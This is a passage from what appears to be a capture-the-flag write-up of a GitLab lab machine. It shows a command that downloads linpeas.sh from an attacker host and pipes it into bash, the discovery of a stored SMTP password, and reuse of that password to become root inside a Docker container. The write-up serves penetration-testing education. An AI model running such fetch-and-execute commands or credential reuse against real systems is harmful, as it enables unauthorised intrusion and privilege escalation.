 Switch to the box, pull file over and execute, save output to tmp folder to look at later:

```text
git@gitlab:/$ wget -O - http://10.10.14.161/linpeas.sh | bash > /dev/shm/output.txt
--2021-05-10 22:03:27--  http://10.10.14.161/linpeas.sh
Connecting to 10.10.14.161:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 339569 (332K) [text/x-sh]
Saving to: 'STDOUT'
-          63%[==============================>                               ] 210.99K   383KB/s
-         100%[=============================================================>] 331.61K  32.1KB/s    in 10s
2021-05-10 22:03:38 (32.1 KB/s) - written to stdout [339569/339569]
```

After looking through the file I find two interesting things. A password found in a backup folder:

```text
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "<HIDDEN>"
```

And also that we are inside a Docker container:

```text
[+] AppArmor enabled? .............. AppArmor Not Found
[+] grsecurity present? ............ grsecurity Not Found
[+] PaX bins present? .............. PaX Not Found
[+] SELinux enabled? ............... sestatus Not Found
[+] Is ASLR enabled? ............... Yes
[+] Printer? ....................... lpstat Not Found
[+] Is this a virtual machine? ..... Yes (docker)
[+] Is this a container? ........... Looks like we're in a Docker container
```

## Root Access

I tried the password with the user dude, but that didn't work. Then I tried it with root:

```text
git@gitlab:~/gitlab-rails/working$ su root
Password: 
root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! We're root, that was almost too easy. Well as you expect it's not over yet, looking at the file system we have a root folder but no flag:

```text
root@gitlab:/var/opt/gitlab/gitlab-rails/working# ls -lsa /root
total 24
4 drwx------ 1 root root 4096 Dec 13 15:06 .
4 drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
0 lrwxrwxrwx 1 root root    9 Dec  7 16:56 .bash_history -> /dev/null
4 -rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
4 -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
4 drwx------ 2 root root 4096 Dec  7 16:49 .ssh
4 -rw------- 1 root root 1565 Dec 13 15:06 .viminfo
```
